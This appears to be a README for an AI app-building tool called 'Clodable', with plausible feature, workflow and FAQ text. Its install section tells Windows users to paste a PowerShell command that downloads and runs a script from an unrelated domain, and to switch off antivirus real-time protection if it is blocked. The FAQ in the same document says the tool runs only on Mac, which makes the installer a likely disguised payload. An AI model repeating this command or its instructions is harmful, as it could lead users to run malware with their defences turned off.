

<div align="center">

# Clodable — Describe, Preview, Publish in One Click — Web Application



[]() []() []() []()

</div>

---

Clodable is the AI app builder that turns a plain-language idea into a working application you can see, shape, and ship. Describe a change in your own words, watch it appear instantly in the live preview beside the chat, and publish in one click when it feels right. Every key stays in your name and every account is yours, so your code, data, and site remain fully under your control. It pairs the ease of describing what you want with the full power of Claude Code, running locally on your computer.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Paste and run
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

**Describe it, and it exists.** Type a change in plain words—"make the header warmer," "add a pricing page with three plans"—and watch it take shape in the live preview beside the chat. No config files, no build steps, no jargon.

**A preview that keeps up.** Every reply from Claude updates the preview instantly, so you're never guessing what your app will look like. Once saving is set up, your work is captured after each reply—nothing slips through.

**Publish in one click.** When it feels right, press Publish. Clodable checks that your app builds, then sends it live. While it works, a simple status bar tells you exactly where you stand—saved, publishing, live—in plain words, never git-speak.

**Edit text in place.** Click any words on the page and type. Changes go straight into your code, without AI and without touching your plan.

**Point at anything, ask for a change.** Click a button, a heading, a card, and say what should change. Claude knows the exact element and line you mean, so edits land where you intend.

**Undo, without fear.** Changed your mind? Undo restores the previous version. Saved, Publish, and Undo—that's the whole vocabulary.

**Honest when something breaks.** If a page won't load, Clodable explains it in plain words and offers a one-click handoff to Claude, complete with the error, the page, and the file. Text that comes from your data can't be typed over, and Clodable says so rather than pretending.

**The full power underneath.** Clodable runs on Claude Code, so Claude can change any file, add database tables, write backend functions, and fix what breaks—while the skills, plugins, and connectors you already rely on keep working. A developer who opens the hood finds a normal, clean history.

**Yours, down to the keys.** Your code lives on your GitHub, your data in your own database, your site on your own host. Keys stay on your computer or in your own accounts—never in the chat. No server, no account, no paid tier.

**Everything you already know, made simpler.** Clodable folds the power of a full AI coding workflow into a builder's experience: live preview, Publish, Undo, and clear status at every step, with the complexity kept out of the way.

## How It Works

Clodable turns a conversation into a working app, and a working app into a live one. Under the hood there's no black box: every change is saved to your own GitHub, and every publish is a plain pull request you could read yourself.

**Describe.** You open a folder in Claude Desktop and tell Claude what you want, in your own words. Claude makes the change and your preview updates instantly, right beside the chat. No build steps to trigger, no commands to type.

**Watch.** What you see is what visitors will get. You can click any words to edit them directly, point at any element and ask Claude to change it, or switch to phone and tablet sizes to check the layout. If a page breaks, one click hands the error to Claude with the page and file it needs.

**Save.** The first time you press Set up saving, Clodable creates a private repository on your GitHub and saves after every reply from then on. You never see git words, just Saved — but a developer opening the repository finds a clean, ordinary history with one draft branch per person and one pull request per draft.

**Publish.** When you're happy, you press Publish. Clodable catches up with what's live, checks that your app builds, and merges your draft into the main branch. Your host deploys it, and your site updates, usually within minutes. If the check fails, nothing changes for visitors and you get a Fix it button instead.

**Undo.** Changed your mind? Undo puts the previous version back, live, in one click.

```
YOUR COMPUTER · Claude Desktop
  1. Ask for a change
  2. Preview updates instantly
  3. Each reply is saved to your draft            ──▶  GitHub: draft/<you> + a pull request
        │
        │ 4. Publish: catch up with the live site → checks → merge
        ▼
PRODUCTION
  your host deploys main · edge functions go live · "You're live"
```

The one exception to the flow is your database. Like the builders you may have used before, your preview runs on your real data, and database changes apply when you confirm them — but Claude is guided to make them additive, so your live site keeps working until you publish. Nothing that can't be undone happens without you saying so first.

Everything runs on your computer and in your own accounts. Clodable has no server, no account and no paid tier, so the only thing between your idea and a live site is the conversation you were already having.

## Tech Stack

**Claude Code under the hood.** Clodable is a plugin for Claude Code that runs inside Claude Desktop, so the full power of Claude — editing any file, writing backend functions, fixing what breaks — is available from the first prompt. Skills, plugins and connectors you already use keep working.

**A local preview that behaves like the real thing.** Apps start as a React front end built with Vite, and the preview runs the actual app on your computer, not a mockup. Editing text in place, pointing at an element and asking for a change, and one-click error reporting all happen against the live code.

**Plain GitHub Flow behind the scenes.** Every save is a normal commit, every draft a branch, every publish a merge, and `main` always equals what's live. Developers find nothing strange under the hood, and you never see git words — just Saved, Publish and Undo.

**Your own accounts, your own keys.** Your code lives on your GitHub, your data in your own Supabase, your site on your own Netlify. Keys stay on your computer or in your own accounts, and Clodable never asks for them in the chat. No server, no account, no paid tier.

**A small, honest footprint.** A CLI for pretty terminal output and NDJSON for programs, a dev-only Vite plugin for the toolbar, and a shared design system for icons and logos. Everything is open source under the MIT license.

## FAQ

**Is Clodable really free?**
Yes. Clodable is open source under the MIT license, with no account, no server and no paid tier. You bring your own Claude plan, and everything else runs in accounts you already own or can create for free to start.

**Do I need to know how to code?**
Not at all. If you can describe what you want, you can shape your app: ask for a change in your own words, watch it appear in the live preview, and publish when it feels right. Underneath there's a normal GitHub history a developer would recognize, but you never have to see it.

**Where does my app actually live?**
With you. Your code sits on your own GitHub, your data in your own Supabase, and your site on your own host. Clodable keeps the keys to those accounts on your computer or in your accounts, and never asks for them in the chat. Stop using Clodable any day and your app keeps running exactly as it is.

**Which apps does Clodable work with?**
Clodable is built and tested with apps it starts from your idea, and with apps made in Lovable: React apps built with Vite and TanStack Start apps. A React app built with Vite from another builder may already work, since that's what the preview runs. Next.js apps don't work yet.

**What do I need to get started?**
A Mac with an up-to-date Claude Desktop, a paid Claude plan, and a free GitHub account where Clodable saves your app. The first run may ask to install Apple's developer tools, which takes a few minutes.

**Can I publish without setting up hosting?**
Publishing is one click once your site has a home. Clodable walks you through putting it on your own free Netlify account, and after that each Publish updates it, usually within five minutes. If your site is still on Lovable's hosting, Publish ends at your GitHub draft and you publish from Lovable.

**What happens if something breaks?**
Clodable tells you plainly, in plain words, and offers a fix: if a page doesn't build, the Publish bar shows it and hands the error to Claude in one click. Changed your mind about a change? Undo puts the previous version back.

**Can I come from Lovable and keep my data?**
Yes. Clodable moves your app, your database, your people and their passwords, your files and your backend functions into accounts in your name, step by step, while your live app keeps running. You can move carefully, trying a working copy first, or in one go for a prototype.

**Does Clodable work on Windows?**
Not yet. Clodable is built and tested on a Mac with Claude Desktop. Windows hasn't been tested, and the move off Lovable doesn't run there yet.

**Who is Clodable for at work?**
Claude Pro and Max are personal plans. For a company app, use Claude Team or Enterprise, and check that your plan allows business use where you're based. Clodable itself stays free for everyone, agencies and developers included.

**Is Clodable finished?**
It works end to end, but it isn't perfect yet, and it changes fast. It's early by design, and it gets better with every report of what breaks.

## License

Clodable is free and open source, released under the MIT license. Use it, adapt it, build on it: the code is yours to work with, and no account, subscription or paid tier stands between you and your app. Every key stays in your name, every project lives in your own accounts, and nothing about Clodable locks you in. The license simply makes that promise official.